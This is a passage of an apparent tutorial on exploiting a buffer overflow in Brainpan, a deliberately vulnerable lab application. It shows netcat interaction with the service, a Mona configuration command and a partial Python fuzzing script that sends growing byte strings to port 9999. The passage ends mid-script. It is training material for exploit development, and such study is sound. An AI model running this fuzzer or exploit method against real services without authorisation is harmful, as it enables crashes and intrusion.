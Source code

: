 Now let's see what this application is, open the application in the immunity debugger and start running it with the red run icon you will find that there is a cmd window saying **[+] Listening for connections.**

So let's connect to it and see what we will get

```
nc (the ip of the device you have opened the app on) 9999

    _|                            _|                                        
    _|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
    _|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
    _|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
    _|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                                _|                          
                                                _|

    [________________________ WELCOME TO BRAINPAN _________________________]
                            ENTER THE PASSWORD                              

                            >> Hello
                            ACCESS DENIED


```
We will see that it is a simple application which waiting for you to enter a password, so let's start to check if there is any possibility for a buffer overflow here

#### Mona Configuration

Mona is a script that can be used to automate and speed up specific searches while developing exploits it works on immunity debugger, we need to Set a working folder with this command (run in the command input box at the bottom of the Immunity Debugger window)
```
!mona config -set workingfolder c:\mona\%p
```
This ensures that all Mona-generated outputs (like logs, patterns, and offsets) are saved in a dedicated directory.

#### Fuzzing

Starting by fuzzing our target using this script

```
#!/usr/bin/env python3

import socket
import time

# Set target details
ip = "192.168.1.xx"  # Change this to match your target
port = 9999 

payload = "A" * 100  # Start with 100 bytes
increment = 100  # Increase size by 100 bytes each loop
timeout = 5  # Timeout for socket connection

while True:
    try:
        print(f"Fuzzing with {len(payload)} bytes")

        # Create a new socket connection for each attempt
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ip, port))

        # Send the payload and read the response
```